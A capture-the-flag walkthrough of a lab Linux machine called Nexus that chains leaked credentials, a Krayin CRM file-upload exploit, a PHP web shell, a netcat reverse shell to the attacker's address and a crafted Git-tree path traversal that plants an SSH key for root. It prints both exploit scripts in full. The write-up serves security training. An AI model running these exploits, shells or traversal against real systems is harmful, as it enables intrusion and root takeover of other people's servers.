

# Nexus


**Difficulty:** Easy  
**OS:** Linux

---

## Summary

1. Enumerate the target
2. Discover the `git.nexus.htb` and `billing.nexus.htb` virtual hosts
3. Find leaked credentials in the public Gitea repository
4. Log in to Krayin CRM and exploit `CVE-2026-38526`
5. Upload a PHP web shell and obtain a reverse shell
6. Recover the `jones` credentials and log in via `SSH`
7. Review the Gitea template synchronization service and identify a path traversal
8. Craft malicious Git objects to write our SSH key into `/root/.ssh/authorized_keys`
9. Gain root access

---

## Solve

### Enumeration

Start with a full TCP scan:

```bash
nmap -sV -sC -p- -A -T5 10.129.99.76
```

- `-sV` : Detect service versions
- `-sC` : Run default NSE scripts
- `-p-` : Scan all 65535 TCP ports
- `-A` : Enable aggressive detection
- `-T5` : Use the fastest Nmap timing profile

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
```

The interesting services are:

- `22` -> SSH
- `80` -> Web application

According to the first nmap output we will add `nexus.htb` to our /etc/host :

```bash
echo "10.129.99.76 nexus.htb" | sudo tee -a /etc/hosts
```

---

### Web Enumeration

The web application is company app hosting infos, news and an application part. At first look there is not mutch to see on **nexus.htb**. The only information that we can get is two email :

- j.matthew@nexus.htb
- careers@nexus.htb

The next step would be to fuzz vhost in order to find other application :

```bash
ffuf \
  -u http://10.129.99.76/ \
  -H 'Host: FUZZ.nexus.htb' \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -mc all \
  -ac \
  -t 50
```

The fuzzing return two news subdomain :

```text
        /'___\  /'___\           /'___\
       /\ \\__/ /\ \\__/  __  __  /\ \\__/
       \ \ ,__\\\ \ ,__\\/\ \\/\ \ \ \ ,__\
        \ \ \\_/ \ \ \\_/\ \ \\_\ \ \ \ \\_/
         \ \\_\   \ \\_\  \ \\____/  \ \\_\
          \\/_/    \\/_/   \\/___/    \\/_/
       2.1.0-dev
________________________________________________
 :: Method           : GET
 :: URL              : http://10.129.99.76/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.nexus.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
________________________________________________
git                     [Status: 200, Size: 14472, Words: 1195, Lines: 242, Duration: 35ms]
billing                 [Status: 302, Size: 390, Words: 60, Lines: 12, Duration: 90ms]
:: Progress: [4989/4989] :: Job [1/1] :: 1879 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

We now need to add both to our `/etc/hosts` :

```bash
echo "10.129.99.76 git.nexus.htb billing.nexus.htb" | sudo tee -a /etc/hosts
```

---

### Gitea

Accessing to `http://git.nexus.htb` we discover a gitea application. If we scroll down we can find version :

```
Powered by Gitea
Version: 1.26.0 Page: 1ms Template: 1ms
```

There is also a repository named : `admin/krayin-docker-setup`.

Inside this repository there is a file named `.env` that contain every variable used for docker.

Inside it we can find a password :

```
DB_PASSWORD=N27xh!!2ucY04
```

---

### Krayin

If we check `http://billing.nexus.htb` we have a application : `Powered by Krayin`

So far we've got an email and a password. If we use both we can log in to Krayin

Krayin login :

```
username: j.matthew@nexus.htb
password: N27xh!!2ucY04
```

After some research we can see that Krayin can be vulnerable to [CVE-2026-38526](https://nvd.nist.gov/vuln/detail/cve-2026-38526).

> An authenticated arbitrary file upload vulnerability in the /admin/tinymce/upload endpoint of Webkul Krayin CRM v2.2.x allows attackers to execute arbitrary code via uploading a crafted PHP file.

To identify to exact version of Krayin we can click over the profil icon on top right of the screen to see that it's version 2.2.0 running :



We can now use the following [poc](https://www.exploit-db.com/exploits/52629) :

<details>

<summary><strong>poc.py</strong></summary>

```python

# Exploit Title: Krayin CRM v2.2.x - Authenticated Remote Code Execution

# Date: 07/05/2026

# Exploit Author: Diamorphine

# Vendor Homepage: https://krayincrm.com

# Software Link: https://github.com/krayin/laravel-crm

# Version: 2.2.x

# Tested on: Debian

# CVE: CVE-2026-38526

import asyncio

import httpx

from urllib.parse import \*

import argparse

from bs4 import BeautifulSoup

import json

async def main(url, user, password, file):

    async with httpx.AsyncClient(verify=False) as client:

        url_login = urljoin(url, "/admin/login")

        upload_url = urljoin(url, "/admin/tinymce/upload")

        get_tokens = await client.get(url=url_login)

        soup = BeautifulSoup(get_tokens.text, "html.parser")

        _token = soup.find("input").get("value")

        login_data = {

            "_token": _token,

            "email": user,

            "password": password

        }

        login_r = await client.post(url=url_login, data=login_data)

        xsrf_token = login_r.cookies.get("XSRF-TOKEN")

        headers = {

            "X-XSRF-TOKEN": unquote(xsrf_token)

        }

        with open(file, "rb") as o_file:

            r = await client.post(

                url=upload_url,

                files={

                    "file": (

                        o_file.name,

                        o_file,

                        "image/jpeg"

                    )

                },

                headers=headers

            )

            if r.status_code == 200:

                exploit_url = r.json().get("location")

                print(

                    f"[+] File uploaded successfully.\n"

                    f"Path to file: {exploit_url}"

                )

            else:

                print("[-] File not uploaded.")

parser = argparse.ArgumentParser(

    description="Exploit for CVE-2026-38526, authenticated file upload."

)

parser.add_argument(

    "-t",

    "--target",

    required=True,

    help="Target url. E.g. http://127.0.0.1"

)

parser.add_argument(

    "-u",

    "--user",

    required=True,

    help="Email."

)

parser.add_argument(

    "-p",

    "--password",

    required=True,

    help="Password."

)

parser.add_argument(

    "-f",

    "--file",

    required=True,

    help="File to upload (/home/user/shell.php)."

)

args = parser.parse_args()

if __name__ == "__main__":

    asyncio.run(

        main(

            args.target,

            args.user,

            args.password,

            args.file

        )

    )
```

</details>

<details>

<summary><strong>shell.php</strong></summary>

```php

<html>

<body>

<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">

    <input type="TEXT" name="cmd" id="cmd" size="80">

    <input type="SUBMIT" value="Execute">

</form>

<pre>

<?php

if (isset($_GET['cmd'])) {

    system($_GET['cmd']);

}

?>

</pre>

</body>

<script>

document.getElementById("cmd").focus();

</script>

</html>
```

</details>

```bash
python3 poc.py -t http://billing.nexus.htb -u 'j.matthew@nexus.htb' -p 'N27xh!!2ucY04' -f shell.php
[+] File uploaded successfully.
Path to file: http://billing.nexus.htb/storage/tinymce/fb73fd7ae2b44825085325355ee415aa.php
```

From here using a simple reverse shell we get access the remote host :

On our host :

```bash
nc -nlvp 4444
```

and on the webshell :

```bash
busybox nc 10.10.14.203 4444 -e sh
```

And now in order to upgrade our shell and get a full interactive :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo && fg
```

- `python3 -c 'import pty; pty.spawn("/bin/bash")'` : Spawns a Bash shell inside a pseudo-terminal (PTY).
- `Ctrl+Z` : Suspends the current reverse shell and sends it to the background.
- `stty raw -echo && fg` : Puts the local terminal in raw mode, disables local echo, and brings the reverse shell back to the foreground.

---

### Pivot

From there we can upload [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master) to get more information.

There is one password found using linpeas inside : `/var/www/krayin/.env`

```
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=y27xb3ha!!74GbR
```

We can also read the `/etc/passwd` to see if there is other user on the target :

```bash
cat /etc/passwd
git:x:111:112:Git Version Control,,,:/home/git:/bin/bash
jones:x:1000:1000:,,,:/home/jones:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

We can then use those credentials to log on as **jones** over ssh.

---

### Privilege Escalation

LinPEAS reveals an interesting systemd timer:

```text
gitea-template-sync.timer     gitea-template-sync.service
```

The service runs regularly and uses the following script:

```text
/etc/gitea/template-sync.py
```

Reading the script reveals that file paths returned by `git ls-tree -r HEAD` are joined directly to the template staging directory:

```python
target = os.path.join(stage_path, filepath)
```

The resulting path is then written without checking that it still points inside the staging directory:

```python
with open(target, 'wb') as f:
    f.write(cat_result.stdout)
```

This creates a path traversal vulnerability. A crafted Git tree containing `..` entries can escape:

```text
/home/git/template-staging/<owner>/<repo>/
```

and write to another location on the filesystem.

A normal Git working tree does not allow us to create `..` entries, so we need to build the Git objects manually.

Log in to Gitea as `jones`, create a repository named `rce`, enable **Make repository a template**, and add a `README.md` file.

Clone the repository:

```bash
git clone http://jones@git.nexus.htb/jones/rce.git
cd rce
```

Generate an SSH key pair:

```bash
ssh-keygen -t ed25519 -f /tmp/.k -N ''
```

The public key is stored in:

```text
/tmp/.k.pub
```

Use the following script to create a malicious Git tree that points to `/root/.ssh/authorized_keys`:

<details>
<summary><strong>poc.py</strong></summary>

```python
#!/usr/bin/env python3

import hashlib
import zlib
import os
import subprocess
import sys
import time

def write_obj(data, t):
    header = ("%s %d" % (t, len(data))).encode() + b"\x00"
    raw = header + data

    sha = hashlib.sha1(raw).hexdigest()

    obj_dir = os.path.join(".git", "objects", sha[:2])
    os.makedirs(obj_dir, exist_ok=True)

    obj_path = os.path.join(obj_dir, sha[2:])

    if not os.path.exists(obj_path):
        with open(obj_path, "wb") as f:
            f.write(zlib.compress(raw))

    return sha

def entry(mode, name, sha):
    return (
        ("%s %s" % (mode, name)).encode()
        + b"\x00"
        + bytes.fromhex(sha)
    )

if not os.path.isdir(".git"):
    print("Run inside git repo")
    sys.exit(1)

result = subprocess.run(
    ["cat", "/tmp/.k.pub"],
    capture_output=True,
    text=True
)

if result.returncode != 0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''")
    sys.exit(1)

key = result.stdout.strip() + "\n"

# Blob containing our SSH public key
blob = write_obj(key.encode(), "blob")

# Normal README blob
readme = write_obj(b"# Template\n", "blob")

# Build: root/.ssh/authorized_keys
ssh_tree = write_obj(
    entry("100644", "authorized_keys", blob),
    "tree"
)

current = write_obj(
    entry("40000", ".ssh", ssh_tree),
    "tree"
)

first = write_obj(
    entry("40000", "root", current),
    "tree"
)

# Add four nested ".." tree entries
for _ in range(4):
    first = write_obj(
        entry("40000", "..", first),
        "tree"
    )

# The root tree adds the fifth ".."
# Final path:
# ../../../../../root/.ssh/authorized_keys
root = write_obj(
    entry("100644", "README.md", readme)
    + entry("40000", "..", first),
    "tree"
)

timestamp = int(time.time())

commit = (
    "tree %s\n"
    "author x <x@x> %d +0000\n"
    "committer x <x@x> %d +0000\n"
    "\n"
    "init\n"
) % (root, timestamp, timestamp)

commit_sha = write_obj(commit.encode(), "commit")

os.makedirs(
    os.path.join(".git", "refs", "heads"),
    exist_ok=True
)

with open(
    os.path.join(".git", "refs", "heads", "main"),
    "w"
) as f:
    f.write(commit_sha + "\n")

print("Done: " + commit_sha)
```

</details>

Run the PoC inside the cloned repository:

```bash
python3 poc.py
```

The crafted tree contains the following traversal path:

```text
../../../../../root/.ssh/authorized_keys
```

Push the malicious commit to Gitea:

```bash
git push origin main --force
```

When the template synchronization service processes the repository, the traversal escapes the staging directory and writes our SSH public key to:

```text
/root/.ssh/authorized_keys
```

We can now connect as root using the corresponding private key:

```bash
ssh -i /tmp/.k root@nexus.htb
```

Finally:

```bash
cat /root/root.txt
```

---

## Notes

### CVE-2026-38526

`CVE-2026-38526` is an authenticated arbitrary file upload vulnerability affecting Krayin CRM 2.2.x.

The vulnerable endpoint is:

```text
/admin/tinymce/upload
```

The endpoint is intended to upload media files for TinyMCE, but dangerous server-side files are not correctly rejected.

The PoC uploads `shell.php` while declaring the file as:

```text
image/jpeg
```

The application accepts the upload and keeps the `.php` extension. The file is then stored in a web-accessible location such as:

```text
/storage/tinymce/<random>.php
```

When this URL is requested, the server executes the PHP code.

The vulnerability can be summarized as:

```text
Authenticated user
        ↓
Upload PHP file
        ↓
Insufficient file validation
        ↓
PHP stored in a web-accessible directory
        ↓
Remote Code Execution
```

The vulnerability is classified as:

```text
CWE-434 - Unrestricted Upload of File with Dangerous Type
```

---

### Template Sync Code Review

The final privilege escalation is not a public Gitea CVE. It comes from the custom script:

```text
/etc/gitea/template-sync.py
```

The important part of the review is following the attacker-controlled path from its source to the file write.

The path comes from:

```bash
git ls-tree -r HEAD
```

It is stored in `filepath` and directly joined to the staging directory:

```python
target = os.path.join(stage_path, filepath)
```

There is no validation to ensure that the final path remains inside `/home/git/template-staging/`.

The resulting path is then used directly by `open()`:

```python
with open(target, 'wb') as f:
    f.write(cat_result.stdout)
```

The vulnerable flow is therefore:

```text
Git repository
      ↓
git ls-tree
      ↓
filepath
      ↓
No path validation
      ↓
os.path.join()
      ↓
open()
      ↓
Arbitrary File Write
```

`os.path.join()` does not sanitize `..` components. When `open()` accesses the path, the filesystem interprets them and the write can escape the intended directory.

Normally Git prevents `..` entries through standard working-tree operations. The PoC therefore manually creates the internal `blob`, `tree`, and `commit` objects inside `.git/objects/`.

This allows us to create:

```text
../../../../../root/.ssh/authorized_keys
```

and turn the vulnerable template synchronization service into an arbitrary file write as root.
